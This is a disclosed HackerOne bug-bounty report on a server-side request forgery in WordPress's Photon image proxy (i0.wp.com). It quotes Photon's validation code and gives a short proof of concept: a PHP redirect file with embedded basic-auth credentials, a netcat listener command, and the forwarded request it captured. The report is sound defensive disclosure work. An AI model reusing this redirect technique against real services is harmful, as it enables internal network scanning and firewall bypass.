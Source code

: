 # Infrastructure - Photon - SSRF

## Report Details
- **Report ID**: 204513
- **URL**: https://hackerone.com/reports/204513
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2017-02-08T10:06:44.378Z
- **Disclosed**: 2017-07-17T23:50:14.884Z

## Reporter
- **Username**: skansing
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: wordpress

## Vulnerability Information
Description
------------------------
The service Photon located at `http://i0.wp.com/` and described at `https://code.trac.wordpress.org/browser/photon/` is vulnerable to Http SSRF via. redirect.

The redirect can go to any IP (including inside of any firewall photon might be inside) any port and can add auth headers.

The service does try to protect itself against this type of attack by using
```
// https://code.trac.wordpress.org/browser/photon/index.php#L111
curl_setopt( $ch, CURLOPT_REDIR_PROTOCOLS, CURLPROTO_HTTP | CURLPROTO_HTTPS );
```
But this does not guard against internal IP's, auth redirects nor other port attacks via http/https.

Due to the different responses an attacker can use the service to scan and attack IP ranges for http services, do malicious actions and etc. 

POC
-----------------------------------
**First a demo that the service does not allow firing requests to any port.**

*Note you can bust the cache by changing the params given to Photon, so if no response is given, just bump n+1 on resize param or add a new param*

- Goto `http://i0.wp.com/159.203.190.123:666/new.php?resize=0,1`
- The responds `Sorry, the parameters you provided were not valid`

This protection happens because of the filter validation

```
// https://code.trac.wordpress.org/browser/photon/index.php#L142
if ( isset( $_GET['q'] ) ) {
        if ( $origin_domain_exception & PHOTON__ALLOW_QUERY_STRINGS ) {
                $url .= '?' . preg_replace( '/#.*$/', '', (string) $_GET['q'] );
                unset( $_GET['q'] );
        } else {
                httpdie( '400 Bad Request', 'Sorry, the parameters you provided were not valid' );
        }
}
	
if ( false === filter_var( $url, FILTER_VALIDATE_URL, FILTER_FLAG_PATH_REQUIRED ) )
        httpdie( '400 Bad Request', 'Sorry, the parameters you provided were not valid' );
```


**Now a demo of bypassing the port restriction and appending authorization headers.**
- Goto `http://i0.wp.com/159.203.190.123/new.php?resize=0,2`
- The server gets a incoming request and responds with a 302
`192.0.102.120 - - [08/Feb/2017:04:15:44 -0500] "GET /new.php HTTP/1.1" 302 199 "-" "Photon/1.0"`
- Photon blindly follow the redirect, here is the output of a netcat listening in with the following command. `nc -l -p 666` and the Photon coming in

```
GET / HTTP/1.1
Host: 159.203.190.123:666
Authorization: Basic YWRtaW46YWRtaW4=
User-Agent: Photon/1.0
Accept: */*
```
The contents of `new.php` 
```
<?php
header('Location: http://admin:admin@159.203.190.123:666');
```


Possible Fixes
-----------------------
The side effects of the SSRF is => redirect to any IP, to any port, auth headers.

I have seached for a way to configure these things in cURL but without success.
I would recommend doing 1 request at a time, manually parsing the response and initiating a new request if the validates for such criteria.

Also consider using `curl_setopt( $ch, CURLOPT_SSL_VERIFYPEER, TRUE );` atm. the link is vuln to MITM attack as the certs are not verified.  

 

## Attachments
No attachments
